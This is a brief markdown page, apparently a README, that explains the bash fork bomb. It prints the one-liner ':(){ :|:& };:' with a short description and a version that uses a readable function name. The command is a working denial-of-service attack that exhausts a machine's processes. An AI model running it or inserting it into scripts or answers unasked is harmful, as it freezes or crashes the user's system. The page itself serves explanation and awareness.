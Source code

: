 # Shell Fork Bomb

## Fork Bomd

- `:(){ :|:& };:`

  - This line keeps calling function to fork itself and blow up your machine

- Clear explanation

  ```bash
  my_function(){
      my_function | my_function&
  };
  my_function
  ```
